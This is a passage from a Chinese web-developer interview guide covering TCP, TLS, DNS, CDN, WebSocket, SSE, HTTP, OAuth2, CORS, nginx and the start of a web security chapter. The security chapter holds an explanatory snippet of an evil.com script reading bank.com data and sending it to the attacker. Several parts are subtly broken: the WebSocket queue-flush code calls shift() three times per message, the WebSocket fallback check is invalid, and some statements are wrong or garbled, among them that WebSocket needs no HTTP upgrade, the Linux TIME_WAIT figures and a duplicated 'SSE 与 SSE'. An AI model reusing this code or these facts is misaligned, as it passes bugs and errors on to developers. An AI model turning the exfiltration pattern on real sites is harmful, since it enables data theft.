| 6 | | FIN → | Server 也发送完数据，请求关闭 |
| 7 | ACK → | | Client 确认收到 FIN |
| 8 | 等待 2MSL | 关闭连接 | |

#### TIME_WAIT 存在的理由

```
为什么需要 TIME_WAIT（等待 2MSL）？

1. 保证最后 ACK 到达被动关闭方
   如果 Client 的最后一个 ACK 丢失:
   Server 会重发 FIN，Client 需要再次发送 ACK
   2MSL 确保 Server 有足够时间重传 FIN

2. 让旧连接的重复数据包在网络中消散
   旧连接的网络中可能还有延迟的数据包

3. MSL:
   Linux: MSL = 60 秒
   TIME_WAIT = 2 * MSL = 120-240 秒
```

---

### 6.8 HTTPS 握手流程、TLS 1.2 vs 1.3

#### HTTPS 握手（TLS 1.2）

**TLS 1.2：需要 2-RTT**

| 步骤 | Client | Server | 说明 |
|------|--------|--------|------|
| 1 | | | TCP 三次握手 |
| 2 | ClientHello → | | 发送支持的 TLS 版本、密码套件、SNI |
| 3 | | ← ServerHello | 选择 TLS 版本 |
| 4 | | ← Certificate | 服务器证书链 |
| 5 | | ← ServerHelloDone | |
| 6 | ClientKeyExchange → | | 发送 pre-master secret |
| 7 | | | 双方计算 master secret |
| 8 | ChangeCipherSpec → | | |
| 9 | | ← ChangeCipherSpec | |
| 10 | Finished (加密) → | | |
| 11 | | ← Finished (加密) | |
| 12 | | | 加密通信开始 |

#### TLS 1.3 优化

```
TLS 1.3: 只需要 1-RTT（首次）/ 0-RTT（后续）

1. 握手从 2-RTT 减少到 1-RTT
   TLS 1.3 将 Key Exchange 合并到第一次消息中

2. 0-RTT（抗重放攻击）
   第二次连接使用 session ticket (early_data)
   代价: 存在重放攻击风险

3. 移除不安全的密码套件
   TLS 1.3 只保留:
   - AEAD: AES-128-GCM, AES-256-GCM, ChaCha20-Poly1305
   - 密钥交换: ECDHE
   移除: ❌ RSA 密钥传输, ❌ CBC 模式, ❌ SHA-1, ❌ MD5

4. 前向保密 (PFS) 默认启用
```

#### 对称加密 vs 非对称加密

```javascript
// 1. 对称加密（加密和解密用同一个密钥）
const crypto = require('crypto');
const key = crypto.randomBytes(32);
const iv = crypto.randomBytes(16);
const cipher = crypto.createCipheriv('aes-256-gcm', key, iv);
let encrypted = cipher.update('secret data', 'utf8', 'hex');
encrypted += cipher.final('hex');
const authTag = cipher.getAuthTag();

// 2. 非对称加密（加密和解密用不同密钥）
const { generateKeyPairSync } = require('crypto');
const { publicKey, privateKey } = generateKeyPairSync('rsa', { modulusLength: 2048 });

// 3. 混合加密（TLS/HTTPS 使用）
/*
  1. ECDHE 密钥交换（双方各自生成临时密钥对，交换公钥）
  2. 双方用 ECDH 计算 pre-master secret（不需要传输私钥！）
  3. 用 PRF 派生出对称密钥
  4. 用对称密钥加密实际通信数据

  优势: 前向保密（PFS — Perfect Forward Secrecy）
*/
```

---

### 6.9 CA 证书链与 HSTS

#### 证书链验证

**证书链结构：**

| 证书类型 | 说明 |
|---------|------|
| 根证书 (Root CA) | 自签名，浏览器内置 |
| 中间证书 (Intermediate CA) | 由根证书签发 |
| 站点证书 (End-entity) | 域名持有者申请，由中间证书签发 |

**浏览器验证流程：**
1. 收到服务器证书
2. 查找中间证书（AIA 字段下载）
3. 验证每个证书的签名链
4. 检查 CRL/OCSP 吊销状态
5. 验证域名匹配、时间有效性

```http
# HSTS (HTTP Strict Transport Security)
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload

参数:
  max-age: 浏览器强制使用 HTTPS 的时间（秒）
  includeSubDomains: 子域名也强制 HTTPS
  preload: 申请加入浏览器内置 HSTS 预加载列表
```

---

### 6.10 DNS 为什么用 UDP vs DNS 污染

```
DNS 使用 UDP 的原因:
1. 低延迟: UDP 无握手，查询速度极快
2. 简单性: DNS 设计于 1983 年，协议简单高效
3. 轻量: 每个 DNS 响应通常 < 512 bytes

DNS 何时使用 TCP:
1. 响应超过 512 bytes（DNSSEC 签名数据大）
2. 区域传输 (AXFR)
3. DoT/DoH (DNS over TLS/HTTPS)

DNS 污染防御:
1. DNSSEC（DNS Security Extensions）— 用公钥签名 DNS 记录
2. DoH (DNS over HTTPS) — DNS 查询通过加密通道传输
3. DoT (DNS over TLS)
```

---

### 6.11 CDN 原理

**CDN 架构图：**

```
用户 (浏览器) → CDN 全球边缘节点 (Edge Server / PoP)
                ↓
  ┌─────────────┼─────────────┐
  ↓             ↓             ↓
北京用户     成都用户      上海用户
→ 北京边缘   → 成都边缘   → 上海边缘
  ↓ (miss)    ↓ (miss)     ↓ (miss)
  回源        回源         回源
  ↓           ↓            ↓
CDN 源站 (Origin Server)
```

**边缘节点分布：** 北京、成都、上海、深圳等全球节点

#### CDN 工作流程

| 步骤 | 说明 |
|------|------|
| Step 1 | 用户首次访问：用户 → CDN 边缘节点 (MISS) → CDN 源站 → 返回并缓存 |
| Step 2 | 其他用户访问：用户 → CDN 边缘节点 (HIT) → 直接返回（毫秒级） |
| Step 3 | 缓存过期：用户 → CDN 边缘节点 (EXPIRED) → 协商缓存 → 更新 TTL |

**CDN 加速原理：**
1. 就近访问（地理优化）：物理距离减少 = RTT 降低
2. 减少源站压力：热点资源被边缘节点缓存
3. 协议优化：HTTP/2 多路复用、Brotli 压缩、TLS 终止
4. 边缘计算：Cloudflare Workers / AWS CloudFront Functions

---

### 6.12 WebSocket 原理

**WebSocket 与 HTTP 对比：**

| 协议 | 连接方式 | 说明 |
|------|---------|------|
| HTTP/1.1 | 请求-响应 | 客户端发起请求，服务器响应 |
| WebSocket | 双向实时 | HTTP 升级后，全双工双向通信 |

```
HTTP/1.1: Client → HTTP → Server (单向请求-响应)
WebSocket: Client ←→ WS ←→ Server (双向实时通信)
```

**连接过程：** Client HTTP → HTTP 升级请求 → WebSocket 双向通信

#### WebSocket 握手

```http
# HTTP 升级请求（浏览器自动完成）
GET /ws HTTP/1.1
Host: api.example.com
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==
Origin: https://example.com

# 服务器响应
HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: s3pPLMBiTxaQ9kYGzzhZRbK+xOo=
```

#### WebSocket 帧结构

```
 0                   1                   2                   3
 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
+-+-+-+-+-------+-+---------------+-------------------------------+
|F|R|R|R| opcode|M|     mask      |         payload length        |
|I|S|S|S|  (4)  |A|     (1)       |             (7/16/64)          |
|N|V|V|V|       |S|               |                               |
+-+-+-+-+-------+-+---------------+-------------------------------+
|     payload len (7 bits)       |  extended payload length      |
+---------------------------------+-------------------------------+
|                   Masking-Key (if mask bit is 1)                |
+---------------------------------+---------------------------------+
|                           Payload Data                           |
+-----------------------------------------------------------------------------:

opcode: 0x1=文本帧, 0x2=二进制帧, 0x8=关闭, 0x9=Ping, 0xA=Pong
```

#### WebSocket 心跳与断线重连

```javascript
class WebSocketClient {
  constructor(url, options = {}) {
    this.url = url;
    this.reconnectInterval = options.reconnectInterval || 3000;
    this.maxReconnectAttempts = options.maxReconnectAttempts || 10;
    this.heartbeatInterval = options.heartbeatInterval || 30000;
    this.reconnectAttempts = 0;
    this.ws = null;
    this.manualClose = false;
    this.messageQueue = [];
    this.connect();
  }

  connect() {
    this.ws = new WebSocket(this.url);
    this.ws.onopen = () => {
      this.reconnectAttempts = 0;
      this.startHeartbeat();
      this.flushQueue();
    };
    this.ws.onmessage = (e) => {
      if (e.data === 'pong') return;  // 心跳响应
      this.handleMessage(e.data);
    };
    this.ws.onclose = () => {
      this.stopHeartbeat();
      if (!this.manualClose) this.reconnect();
    };
  }

  startHeartbeat() {
    this.heartbeatTimer = setInterval(() => {
      if (this.ws.readyState === WebSocket.OPEN) {
        this.ws.send('ping');
      }
    }, this.heartbeatInterval);
  }

  reconnect() {
    if (this.reconnectAttempts >= this.maxReconnectAttempts) return;
    const delay = this.reconnectInterval * Math.pow(1.5, this.reconnectAttempts);
    setTimeout(() => {
      this.reconnectAttempts++;
      this.connect();
    }, delay);
  }

  send(data) {
    if (this.ws.readyState === WebSocket.OPEN) {
      this.ws.send(typeof data === 'string' ? data : JSON.stringify(data));
    } else {
      this.messageQueue.push(data);  // 队列消息，连接恢复后发送
    }
  }

  close() {
    this.manualClose = true;
    this.stopHeartbeat();
    this.ws.close(1000, 'Client closed');
  }

  flushQueue() {
    while (this.messageQueue.length > 0) {
      this.ws.send(typeof this.messageQueue.shift() === 'string'
        ? this.messageQueue.shift()
        : JSON.stringify(this.messageQueue.shift()));
    }
  }
}
```

---

### 6.13 SSE vs WebSocket vs 长轮询

#### 6.13.1 核心定义

**Server-Sent Events（SSE）**：一种基于 HTTP 的轻量级协议，用于实现服务器→客户端的**单向实时推送**。浏览器通过 `EventSource` API 建立持久 HTTP 连接，服务器随时可发送事件流，浏览器自动解析并触发 `onmessage` 回调。

**WebSocket**：基于 TCP 的独立协议，**全双工**双向通信。双方可随时互相发送帧，无需 HTTP 升级（详见 1.6 节）。

**长轮询（Long Polling）**：HTTP 轮询的变种，客户端发送请求后服务器**挂起**，直到有数据或超时才返回响应；客户端收到响应后立即发起新请求。

#### 6.13.2 SSE 协议规范与数据格式

SSE 的数据传输使用 **MIME 类型 `text/event-stream`**，每个事件由多行文本组成，以**双换行符（`\n\n`）**作为分隔：

```
字段: 值\n
字段: 值\n
\n
data: {"price": 100.5}\n
\n
id: 42\n
event: stock_update\n
data: {"symbol": "AAPL", "price": 175.3}\n
retry: 5000\n
\n
```

**字段说明：**

| 字段 | 作用 |
|------|------|
| `data:` | 事件负载（可多行，会拼接在一起，以 `\n\n` 结束） |
| `id:` | 事件 ID，浏览器自动维护 `Last-Event-ID`，断线后自动在 `Last-Event-ID` header 中发送，用于服务器回溯补发 |
| `event:` | 事件类型（默认 `message`，可自定义类型如 `stock_update`） |
| `retry:` | 断线后重连间隔（毫秒，默认约 3s，服务器可覆盖） |
| `:comment` | 注释行（忽略，用于心跳保活） |

**服务端 Node.js 实现（Express）：**
```javascript
app.get('/stream', (req, res) => {
  res.setHeader('Content-Type', 'text/event-stream');
  res.setHeader('Cache-Control', 'no-cache');
  res.setHeader('Connection', 'keep-alive');
  res.setHeader('X-Accel-Buffering', 'no'); // 禁用 nginx 缓冲
  res.flushHeaders(); // 立即发送 HTTP 头，不要等 body

  const sendStockUpdate = (symbol, price) => {
    res.write(`event: stock_update\n`);
    res.write(`data: ${JSON.stringify({ symbol, price, ts: Date.now() })}\n\n`);
  };

  const interval = setInterval(() => {
    sendStockUpdate('AAPL', (170 + Math.random() * 5).toFixed(2));
  }, 1000);

  req.on('close', () => {
    clearInterval(interval);
    console.log('[SSE] 客户端断开');
  });
});
```

**客户端 `EventSource` API：**
```javascript
const es = new EventSource('/stream');

// 默认 message 事件（event:type 未指定时）
es.onmessage = (e) => {
  console.log('[默认事件]', e.data); // e.data 是纯字符串
};

// 自定义事件类型
es.addEventListener('stock_update', (e) => {
  const data = JSON.parse(e.data);
  console.log(`[${data.symbol}] ${data.price}`);
});

// 连接状态
es.onopen = () => console.log('[SSE] 连接已建立');
es.onerror = (e) => {
  console.error('[SSE] 连接错误', e);
  // EventSource 自动重连（除非 readyState === CLOSED）
  if (es.readyState === EventSource.CLOSED) {
    console.log('[SSE] 连接已永久关闭，需手动重连');
  }
};

// 手动关闭
es.close();

// 获取最后的事件 ID（用于断线后重连）
console.log('Last-Event-ID:', es.lastEventId);
```

#### 6.13.3 重连机制（Last-Event-ID 与断线恢复）

SSE 的自动重连是面试高频考点：

```
连接正常时：
  服务器发送 → id:42 → data:{...}

断线重连时：
  客户端 HTTP 请求 header 自动带上：
    Last-Event-ID: 42

  服务器可从 Redis/MQ 中读取 id≥42 的未发消息，
  从断线位置开始补发，实现"消息不丢失"
```

> ⚠️ **常见误解**：浏览器只在 **SSE 断线重连**时自动发送 `Last-Event-ID`。如果想每次消息都带 ID，服务器必须主动在每次事件中发送 `id:` 字段。

#### 6.13.4 三方案完整对比表

| 维度 | **SSE** | **WebSocket** | **长轮询** | **短轮询** |
|------|:-------:|:-------------:|:----------:|:----------:|
| 通信方向 | **单向（服务端→客户端）** | **全双工** | 客户端轮询，服务端可推 | 客户端轮询 |
| 连接特性 | 长连接（HTTP） | 长连接（TCP） | 每次请求后关闭再发起 | 短连接（每次请求后关闭） |
| 协议 | HTTP（text/event-stream） | ws:// / wss:// | HTTP | HTTP |
| HTTP 头开销 | 仅首次握手有头 | 仅握手有头（帧头 2 字节） | 每轮询次都带完整 HTTP 头 | 每轮次都带完整 HTTP 头 |
| 自动重连 | ✅ 原生 EventSource | ❌ 需手动实现 | ❌ 需手动实现 | N/A |
| 断线消息补发 | ✅ via Last-Event-ID | ❌ 需应用层实现 | ❌ 需应用层实现 | ❌ |
| 二进制数据 | ❌ 仅文本（UTF-8） | ✅ 原生二进制帧 | ✅ | ✅ |
| 单连接多路复用 | ✅（HTTP/2） | ❌（每连接一流） | ❌ | ❌ |
| 穿过代理 | ✅ | ⚠️（可能被降级为 HTTP） | ✅ | ✅ |
| 复杂度 | 低 | 中高 | 中 | 低 |
| IE/Edge Legacy | ❌ | ❌ | ✅ | ✅ |
| 适用场景 | 推送通知、实时数据、股票/天气、AI 流式输出 | 聊天、游戏、实时协作 | 兼容旧系统、低频更新 | 低频状态轮询 |

#### 6.13.5 选型决策树

**实时通信技术选型：**

| 问题 | 选项 | 推荐 |
|------|------|------|
| 需要实时通信？ | 是 | 继续判断 |
| 只需服务端推送（服务器 → 浏览器）？ | 是 | 继续判断 |
| 消息量极大（>10k 连接）？ | 是 | SSE（HTTP/2 多路复用更优） |
| 需 AI/LLM 流式输出？ | 是 | SSE（原生 ReadableStream 支持） |
| 普通推送（通知、行情）？ | - | SSE（最简单，推荐） |
| 需要双向通信（浏览器 ↔ 服务器）？ | 是 | 继续判断 |
| 延迟敏感（<100ms），游戏/协作？ | 是 | WebSocket |
| 消息可靠性要求极高？ | 是 | WebSocket + 应用层 ACK |
| 低频（每隔几秒才发一条）？ | - | SSE（客户端用 fetch POST 发请求） |

#### 6.13.6 常见坑点与最佳实践

| 坑点 | 说明 | 解决方案 |
|------|------|----------|
| **nginx 默认缓冲 SSE** | nginx 收到响应后才转发，导致实时变"批量" | `proxy_buffering off;` 或设置响应头 `X-Accel-Buffering: no` |
| **nginx 超时断开** | 默认 `proxy_read_timeout 60s` 导致连接被斩断 | `proxy_read_timeout 86400;` |
| **SSE 连接数限制** | 浏览器同源 HTTP 连接数有限制（HTTP/1.1 通常 6 个） | 改用 HTTP/2；或合并多个 SSE 流为 1 个 |
| **EventSource 不支持 POST** | `EventSource` 只接受 GET，无法发送认证信息 | 配合 fetch + 一次性 token 方案；或用 cookie/Authorization header |
| **多标签页重复连接** | 每个标签页都会新建 SSE 连接 | 服务端维护心跳；或使用 SharedWorker / BroadcastChannel |
| **SSE 无法穿透代理** | 某些企业代理不认识 SSE，流被截断 | 降级为轮询；或使用 WebSocket over TLS（WSS） |
| **浏览器关闭时连接不通知服务端** | 客户端页面关闭/切换，SSE 连接不会发送 close 通知 | 使用 `navigator.sendBeacon` 在页面卸载时发通知；或服务端心跳超时判定 |

**Node.js + Redis Pub/Sub 实现多人 SSE 广播：**
```javascript
// 服务端：Redis 广播，多个 SSE 客户端可订阅同一频道
const redis = require('redis');
const subscriber = redis.createClient();

app.get('/stream/:userId', async (req, res) => {
  const { userId } = req.params;
  res.setHeader('Content-Type', 'text/event-stream');
  res.setHeader('Cache-Control', 'no-cache');
  res.setHeader('Connection', 'keep-alive');
  res.flushHeaders();

  const channel = `user:${userId}:events`;
  subscriber.subscribe(channel, (message) => {
    // 新消息到达，立即发送给 SSE 客户端
    res.write(`data: ${message}\n\n`);
  });

  req.on('close', () => {
    subscriber.unsubscribe(channel);
  });
});
```

#### 6.13.7 高频面试追问

**Q1：AI 大模型的流式输出为什么用 SSE 而不是 WebSocket？**
> SSE 与 SSE 在 LLM 流式输出中的差异：
> 1. **语义匹配**：`fetch()` 返回的 `ReadableStream` 可直接通过 `TextDecoderStream` 转为 SSE 格式，前端只需 `EventSource` 或 fetch 流式消费
> 2. **天然单向**：LLM 推理只有服务端输出，无需客户端推送，SSE 语义完全吻合
> 3. **标准 HTTP 兼容**：SSE 是标准 HTTP，长连接穿越代理和 CDN 比 WebSocket 更容易
> 4. **自动重连**：EventSource 自动处理断线重连，对 AI 流式对话场景友好
> 5. **简单实现**：服务端只需每生成一个 token 就 `res.write()` 一行数据，无需维护复杂的状态

**Q2：SSE 能否实现浏览器向服务器发送数据？**
> 原生 `EventSource` **只支持 GET**，但有几种 workaround：
> 1. **同域下额外建立 WebSocket 连接** 用于客户端→服务端（常见方案）
> 2. **用 `fetch('POST')` 发送指令**，SSE 专门接收服务器推送
> 3. **EventSource 支持自定义 URL，服务器根据 URL 参数路由不同频道**

**Q3：SSE 与 WebSocket 在 Node.js 生态中的性能差异？**
> - **SSE**：基于 HTTP，长连接复用，Node.js 的单线程 event loop 中大量 SSE 连接主要消耗内存而非 CPU，适合高并发单向推送（如直播弹幕）
> - **WebSocket**：需要维护状态化的连接帧解析，适合双向通信；大量连接时推荐使用 `uWebSockets.js` / `ws` 库的 cluster 模式或 Redis pub/sub 水平扩展

**Q4：WebSocket 断开后，SSE 能否作为降级方案？**
> 是的，这是生产环境中的标准降级策略：
```javascript
// 优先尝试 WebSocket，失败则降级为 SSE
let transport = null;
if (new WebSocket) {
  try {
    const ws = new WebSocket(url);
    transport = ws;
  } catch {
    transport = new EventSource(url);
  }
} else {
  transport = new EventSource(url);
}
```

> 📚 参考：
> - [MDN - Using server-sent events](https://developer.mozilla.org/en-US/docs/Web/API/Server-sent_events/Using_server-sent_events)
> - [SSE 技术详解](https://cloud.tencent.com/developer/article/1194063)
> - [实时技术对比: SSE vs WebSocket vs Long Polling](https://cloud.tencent.com/developer/article/2521124)
> - [SSE (Server-Sent Events) 协议详解](https://blog.csdn.net/jkzyx123/article/details/145704261)

---

### 6.14 RESTful vs GraphQL

#### RESTful 流行原因

```
RESTful 设计原则:
1. 资源导向: 所有内容都是资源（/users, /orders, /products）
2. HTTP 语义: GET(查), POST(增), PUT(改), DELETE(删), PATCH(部分改)
3. 无状态: 每个请求包含所有必要信息
4. 分层系统: 客户端不需要知道服务端架构
```

#### GraphQL 为什么出现

```
RESTful 的问题:
1. Over-fetching（过度获取）
   /api/user/123 返回整个对象，但前端只需要 name + avatar

2. Under-fetching（不足获取）/ N+1 问题
   首页需要: 用户信息 + 朋友列表 + 最新帖子
   REST: GET /user → GET /friends → GET /posts

3. 端点爆炸
   /api/v1/users → /api/v2/users → ...
```

```graphql
# GraphQL 查询示例
query {
  user(id: "123") {
    name
    avatar
    friends(first: 5) {
      name
      avatar
    }
  }
}

# 响应（精确匹配请求的字段，无冗余）
{
  "data": {
    "user": {
      "name": "Alice",
      "avatar": "https://...",
      "friends": [...]
    }
  }
}
```

---

### 6.15 HTTP 状态码大全

```http
1xx 信息性状态码（处理中）
100 Continue           # 客户端继续发送请求
101 Switching Protocols # WebSocket 升级

2xx 成功状态码
200 OK                # 请求成功
201 Created           # 资源创建成功
202 Accepted          # 请求已接受，但处理未完成（异步任务）
204 No Content        # 请求成功，但无返回内容

3xx 重定向状态码
301 Moved Permanently  # 永久重定向（SEO 友好，更新书签）
302 Found              # 临时重定向（保持原请求方法）
303 See Other          # POST -> GET
304 Not Modified       # 协商缓存命中
307 Temporary Redirect # 临时重定向（保持原请求方法）
308 Permanent Redirect # 永久重定向（保持原请求方法）

4xx 客户端错误状态码
400 Bad Request        # 请求格式错误
401 Unauthorized       # 未认证
403 Forbidden          # 已认证但无权限
404 Not Found          # 资源不存在
405 Method Not Allowed # HTTP 方法不支持
409 Conflict           # 资源冲突（用户名已存在）
412 Precondition Failed # ETag 验证失败
429 Too Many Requests   # 请求频率超限

5xx 服务器错误状态码
500 Internal Server Error # 服务器内部错误
502 Bad Gateway            # 网关错误（上游服务器返回错误响应）
503 Service Unavailable    # 服务不可用（过载/维护）
504 Gateway Timeout        # 网关超时
```

---

### 6.16 301/302/307/308 区别

| 状态码 | 类型 | 方法是否保持 | 说明 |
|--------|------|-------------|------|
| 301 | 永久 | 警告：POST 可能变 GET | 兼容旧浏览器 |
| 302 | 临时 | 警告：POST 可能变 GET | 兼容旧浏览器 |
| 303 | 临时 | 强制变为 GET | POST 处理后重定向 |
| 307 | 临时 | 严格保持原方法 | 标准临时重定向 |
| 308 | 永久 | 严格保持原方法 | 标准永久重定向 |

**实际建议：**
- 永久重定向：308（标准）/ 301（兼容旧浏览器）
- 临时重定向：307（标准）/ 302（兼容旧浏览器）
- POST 处理后重定向：303（强制 GET）

---

### 6.17 GET vs POST vs PUT vs PATCH vs 幂等性

| 特性 | GET | POST | PUT | PATCH | DELETE |
|------|-----|------|-----|-------|--------|
| 语义 | 获取资源 | 创建/处理资源 | 完整替换资源 | 部分修改资源 | 删除资源 |
| 请求体 | 无（查询参数在 URL） | 支持 | 支持 | 支持 | 通常无 |
| 幂等性 | 是 | 否 | 是 | 否 | 是 |
| 缓存 | 可缓存 | 通常不缓存 | 不缓存 | 不缓存 | 不缓存 |

```http
# GET 示例
GET /users?page=1&limit=20 HTTP/1.1

# POST 示例 — 创建资源（返回 201 Created）
POST /users HTTP/1.1
{ "name": "Alice", "email": "alice@example.com" }

# PUT 示例 — 完整替换（幂等）
PUT /users/123 HTTP/1.1
{ "name": "Alice Updated", "email": "alice@example.com" }

# PATCH 示例 — 部分修改（非幂等）
PATCH /users/123 HTTP/1.1
{ "email": "newemail@example.com" }
```

---

### 6.18 OAuth2 原理

```
OAuth2 Authorization Code 流程:

1. 用户点击"用 Google 登录"
   重定向到 Google 授权服务器:
   https://accounts.google.com/o/oauth2/v2/auth?
     client_id=YOUR_CLIENT_ID
     &redirect_uri=https://your-app.com/callback
     &response_type=code
     &scope=openid%20profile%20email
     &state=RANDOM_STATE

2. 用户在 Google 登录并授权
   授权服务器返回:
   https://your-app.com/callback?code=AUTH_CODE&state=RANDOM_STATE

3. Client 服务器用 Authorization Code 换取 Token
   POST https://oauth2.googleapis.com/token
   grant_type=authorization_code
   &code=AUTH_CODE
   &client_secret=YOUR_CLIENT_SECRET

   响应:
   { "access_token": "ya29.xxx", "refresh_token": "1//xxx", "expires_in": 3600 }
```

#### JWT vs Session

```javascript
// JWT 签发
const jwt = require('jsonwebtoken');
const token = jwt.sign(
  { sub: 'user123', role: 'admin' },
  'secret-key',
  { expiresIn: '1h', algorithm: 'HS256' }
);

// JWT 验证
try {
  const decoded = jwt.verify(token, 'secret-key');
  console.log(decoded);
} catch (e) { console.error('Invalid token'); }

// JWT vs Session:
/*
| 特性         | JWT                          | Session               |
|-------------|-----------------------------|----------------------|
| 存储位置      | 客户端（Token 本身）           | 服务器（Redis/DB）     |
| 扩展性       | 好（无状态，多服务器无同步）    | 需 Session 共享/粘性    |
| 撤销         | 困难（需黑名单/短期 Token）    | 简单（删除服务端 Session）|
| 安全性       | ❌ 泄露 = 无法撤销             | ✅ 可立即撤销           |
| JWT 不够安全的原因:                           |
| 1. 无法主动撤销                              |
| 2. 泄露风险（若非 HttpOnly Cookie 存储）      |
| 3. 无加密（Payload 是 Base64 可读）           |
*/
```

---

### 6.19 CORS 原理

#### 简单请求 vs 复杂请求

```
简单请求（同时满足以下所有条件）:
1. 方法: GET / HEAD / POST
2. Header: 仅包含简单头 + 自定义安全头
   Content-Type 只能是:
   - application/x-www-form-urlencoded
   - multipart/form-data
   - text/plain

复杂请求（需预检 Preflight）:
1. 方法: PUT / DELETE / PATCH
2. Header: 非简单头 (Authorization, Content-Type 不是简单值)
3. Content-Type 不是简单值（如 application/json）
```

**预检请求流程（复杂请求）：**

| 步骤 | 说明 |
|------|------|
| 1 | 浏览器发送 OPTIONS 请求（携带 Origin + Access-Control-Request-Methods/Headers） |
| 2 | 服务器返回 Access-Control-Allow-Origin / Methods / Headers |
| 3 | 实际请求 → 服务器 |
| 4 | 服务器返回正常响应 |

#### CORS 完整配置

```http
# 服务器响应头
Access-Control-Allow-Origin: https://example.com
Access-Control-Allow-Methods: GET, POST, PUT, DELETE, OPTIONS
Access-Control-Allow-Headers: Content-Type, Authorization
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 86400
```

---

### 6.20 nginx 正向代理 vs 反向代理 vs 负载均衡

**正向代理 vs 反向代理：**

| 类型 | 位置 | 代表 | 用途 |
|------|------|------|------|
| 正向代理 | 客户端侧 | 用户 → 正向代理 → 目标网站 | 翻墙、企业内网过滤 |
| 反向代理 | 服务器侧 | 用户 → 反向代理 → 应用服务器 A/B/C | 负载均衡、安全防护、SSL 终止 |

**架构示意：**

```
正向代理:
用户 → [正向代理服务器] → 目标网站（代理代表用户）

反向代理:
用户 → [反向代理服务器] → 应用服务器 A/B/C（代理代表服务器）
```

```nginx
upstream backend {
    ip_hash;
    server 10.0.0.1:8080 weight=3;
    server 10.0.0.2:8080 weight=1;
    keepalive 32;
}

server {
    listen 443 ssl http2;
    server_name example.com;

    ssl_certificate /etc/nginx/ssl/example.com.crt;
    ssl_certificate_key /etc/nginx/ssl/example.com.key;
    ssl_protocols TLSv1.2 TLSv1.3;

    location /api/ {
        proxy_pass http://backend;
        proxy_http_version 1.1;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
        proxy_set_header Connection "";
    }

    location /static/ {
        alias /var/www/static/;
        expires 1y;
        add_header Cache-Control "public, immutable";
    }
}
```

#### nginx 负载均衡算法

```nginx
# 1. 轮询（默认）
server 10.0.0.1:8080;
server 10.0.0.2:8080;

# 2. 加权轮询
server 10.0.0.1:8080 weight=3;
server 10.0.0.2:8080 weight=1;

# 3. IP Hash（Session 保持）
ip_hash;

# 4. 最少连接
least_conn;

# 5. URL Hash（缓存友好）
hash $request_uri consistent;
```

#### nginx 静态资源缓存

```nginx
# 策略1: 基于文件指纹（最推荐）
location /static/ {
    expires 1y;
    add_header Cache-Control "public, max-age=31536000, immutable";
}

# 策略2: 基于扩展名
location ~* \.(js|css|png|jpg|ico|svg|woff2)$ {
    expires 30d;
}

# 策略3: HTML 禁止缓存
location ~* \.html$ {
    expires -1;
    add_header Cache-Control "no-cache, no-store, must-revalidate";
}

# 策略4: CDN + 源站缓存
location / {
    proxy_cache my_cache;
    proxy_cache_valid 200 10m;
    proxy_cache_use_stale error timeout http_500 http_502 http_503;
    add_header X-Cache-Status $upstream_cache_status;
}
```


---

## Chapter 7: Web安全终极题库

### 7.1 Web安全本质与浏览器安全模型

#### 7.1.1 Web安全本质

Web安全本质是**在不可信的网络环境中构建可信的应用**。攻击者的目标是窃取数据、劫持会话、执行任意代码；防御者的目标是确保数据的机密性、完整性和可用性（CIA 三元组）。

浏览器作为Web应用的运行时，是安全攻防的主战场。浏览器安全模型由多层防护机制构成：

**浏览器安全模型：**

| 防护机制 | 说明 |
|---------|------|
| 1. 进程隔离 | 渲染进程 vs 浏览器主进程隔离 |
| 2. 同源策略 (SOP) | 域间隔离 |
| 3. 沙箱机制 | 限制代码能力 |
| 4. 安全上下文 | HTTPS / localhost |
| 5. CSP / CORS | 资源加载控制 |
| 6. CORB / CORP / COEP | 侧信道攻击缓解 |
| 7. SameSite Cookie | CSRF 防护 |

#### 7.1.2 浏览器进程隔离

**多进程架构：**

| 进程 | 说明 |
|------|------|
| 浏览器主进程 (Browser) | 地址栏、网络请求、插件管理、存储管理 |
| 渲染进程 A (Renderer) | JS引擎、DOM树、布局引擎、事件循环 |
| 渲染进程 B (Renderer) | JS引擎、DOM树、布局引擎、事件循环 |

**进程间通信：** IPC（进程间通信）

**说明：** 每个标签页运行在独立的渲染进程中，通过 IPC 与浏览器主进程通信。渲染进程的 JS 无法直接访问文件系统，网络进程只能通过 MessageChannel 与渲染进程通信。

---

### 7.2 同源策略 (Same-Origin Policy, SOP)

#### 7.2.1 什么是同源

**同源**指协议 + 域名 + 端口三者完全相同。

| URL A                          | URL B                      | 是否同源    |
|--------------------------------|----------------------------|-----------|
| `https://a.example.com:443`    | `https://a.example.com:443`| 同源        |
| `https://a.example.com:443`    | `https://b.example.com:443`| 不同源(域不同)|
| `https://a.example.com:443`    | `http://a.example.com:443` | 不同源(协议不同)|
| `https://a.example.com:443`    | `https://a.example.com:8080`| 不同源(端口不同)|

#### 7.2.2 SOP限制了什么

#### 7.2.2 SOP限制了什么

同源策略限制以下跨域行为：

| 行为 | 是否允许 | 说明 |
|------|---------|------|
| Cookie / LocalStorage / IndexedDB 访问 | 禁止 | 跨域无法读写 |
| DOM 跨域读写 | 禁止 | 无法操作跨域 iframe 内容 |
| XMLHttpRequest / Fetch 跨域请求 | 禁止 | 需要 CORS 头 |
| iframe 跨域内容访问 | 禁止 | 无法读取跨域 iframe 内容 |

**可跨域访问的资源（无需 CORS）：**

| 资源 | 说明 |
|------|------|
| `<script src>` | 可跨域加载 JS |
| `<link href>` | 可跨域加载 CSS |
| `` | 可跨域加载图片 |
| `@font-face` | 可跨域字体 |

#### 7.2.3 为什么必须有SOP

如果浏览器没有SOP，任意网页的JS都能读取`bank.com`的Cookie、DOM和LocalStorage：

```javascript
// 恶意网站 https://evil.com 的JS
fetch('https://bank.com/api/balance')  // 自动携带cookie
  .then(r => r.json())
  .then(data => sendToAttacker(data));

document.getElementById('bank-frame').contentDocument; // 读取iframe内容
```

**SOP是浏览器安全的基石**，它将Web划分为安全域，防止恶意脚本访问敏感资源。

---

### 7.3 XSS（跨站脚本攻击）

#### 7.3.1 什么是XSS

XSS（Cross-Site Scripting）指攻击者将恶意脚本注入到受信任的网页中执行。

